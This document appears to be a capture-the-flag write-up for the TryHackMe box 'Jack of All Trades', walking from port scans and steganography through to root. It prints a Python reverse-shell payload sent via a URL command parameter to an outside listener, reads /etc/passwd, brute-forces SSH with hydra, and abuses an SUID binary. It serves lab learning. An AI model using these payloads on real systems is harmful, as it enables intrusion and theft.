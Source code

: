 # 'Jack-of-All-Trades' box writeup

## Jack of All Trades is a CTF box originally designed for Securi-Tay 2020 and written by MuirlandOracle, available on the [TryHackMe platform](https://tryhackme.com)

## Read about [How to allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274), [SUID files](https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/) and [Steghide](http://steghide.sourceforge.net/)

![bg](images/backgroundjack.jpeg?raw=true "Title")

## Foothold

+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.252.248``

+ **We can see 2 open ports with some services: ssh and http.**
**The first strange thing is that the services are opened on reversed ports.**
**Ssh is opened on the 80 ports and http on the 22 one**

![1](images/nmap_scan_jack.jpg?raw=true "Nmap_scan")

+ **Let's try to get to the http web-site on the 22 port.**
**We see an browser error: seems like Firefox has canceled our request for kind of security.**
**That's because the unusual use of 22 port for the http service**

![2](images/restrict.jpg?raw=true "restrict")

**We can allow this restricted port making some configuration inside the mozilla browser: [allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274).**
**Go into the about:config page in the URL, search for the ports and add the `network.security.ports.banned.override` string, with the 22 value.**

![3](images/add_string.png?raw=true "add_string")

![4](images/welcome.png?raw=true "welcome")

**We can see our main page, with the box title and some images in there.**
**Let's scan with gobuster too.**

``gobuster dir -u http://10.10.252.248:22/ -w /usr/share/wordlists/dirb/common.txt``

![5](images/gobust.jpg?raw=true "gobust")

+ **Let's take a look into our gobuster output.**
**Let's visit the assets page; we can see some *jpg* files, one of them called** `stego.jpg` **so we can think about an encrypted image with the help of steganography**

![6](images/assets.jpg?raw=true "assets")

+ **We can try to extract the stego image to see de hidden data, so we're gonna use steghide**

``steghide --extract -sf stego.jpg``

**A passphrase is requested, so we cannot immediately decrypt the image, but we can continue to enumerate the http page.**
**Let's take a look into the source code of the page.**

+ **We can spot a message left in the source code of the page: a recovery message which tells us we can connect on the `/recovery.php` page and there's also a base64 encoded message**

![7](images/base64.jpg?raw=true "base64")

**Let's try to decrypt our message.**

``echo "UmVtZW1iZXIgdG8gd2lzaCBxxxxxxxxxx" | base64 -d``

![8](images/decrypt.jpg?raw=true "base64")

**We got a message and a password too!**
**Let's use it to decrypt the image with steghide.**

![9](images/first_steg.jpg?raw=true "first_steg")

+ **A `creds.txt` file was hidden inside, but the `stego.jpg` wasn't the good path.**
**Let's download the other images from the assets page and extract them**

![10](images/real_steg.jpg?raw=true "real_steg")

``steghide --extract -sf header.jpg``

**Bingo!**
**We got a username and a password inside the `header.jpg` image.**
**Let's go to the `/recovery.php` page and try to login with the credentials.**

+ **Logging in with our credentials on the page, we are redirected to a page with the message:**

``GET me a 'cmd' and I'll run it for you Future-Jack.``

![11](images/login.jpg?raw=true "login")

**Now, let's try some system commands inside the URL:**

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

![cmd](images/cmdworks.jpg?raw=true "cmd")

+ **It's all working, so go grab a reverse shell.**
**I'm gonna use python and start listen with nc**

```console
nc -lvnp 1234
```

```text
http://10.10.252.248:22/nnxhweOV/index.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![12](images/access.jpg?raw=true "access")

## User escalation

**Here we got our access into the system.**
**Let's spawn an interactive shell with python and continue to enumerate.**

```console
python -c 'import pty; pty.spawn("/bin/bash")'
```

+ **Looking into the /home directory, we can see a** ``jacks_password_list`` **file which seems to be a password list for the jake user.**
**According to the second service opened, on the 80 port, the ssh service, we're gonna try to bruteforce the login with the given wordlist and with the help of the Hydra tool**

![13](images/jackspassw.jpg?raw=true "jacks")

+ **Firstly, we need to download the** ``jacks_password_list`` **file to our machine.**
**Open a python server on the Jack box and we're gonna get the file on ours**

**The Jack box:**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**Our machine:**

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/jacks_password_list``

+ **Now, having the wordlist, let's start the bruteforce phase.**
**Don't forget to set the port for the ssh service, because it's not on the default (22), but the 80 one**

```console
hydra -s 80 -v -V -l jack -P jacks_password_list -t 8 10.10.252.248  ssh
```

![13](images/hydra.jpg?raw=true "hydra")

**Let's connect into the ssh server with our credentials on the 80 port.**

```console
ssh jake@10.10.252.248 -p 80
```

+ **In the /home/jack directory we can see the user flag, but in the `.jpg` format.**
**Let's get the image on our machine, using the same method as above, and then open it**

```console
www-data@jack-of-all-trades:/home$ python -m SimpleHTTPServer 6999
```

```console
{kali@kali:Jack of All Trades_0}$ wget 10.10.252.248:6999/user.jpg
```

**Opening the `user.jpg` flag, we can see the Penguing recipe and the user flag.**

![14](images/user.flag.jpg?raw=true "user")

## Root escalation

+ **Checking for ``sudo -l`` on the jack user gives us no good path.**
**He has no `sudo` permission on the machine**

``Sorry, user jack may not run sudo on jack-of-all-trades.``

**Let's check for some advanced linux file permissions - suid.**

```console
find / -type f -user root -perm -4000 -print 2>/dev/null
```

+ **This gives us some interesting output.**
**The strings executable has got file owner permission when executing a command**

![15](images/suid.jpg?raw=true "suid")

**Knowing this, let's try to use strings on our `root.txt` flag.**

```console
strings /root/root.txt
```

+ **And here's our root flag.**
**This was a very nice box with some steganography challenges into, a reversed ports configuration of services and some file permissions**

![15](images/root_flag_jack.jpg?raw=true "suid")

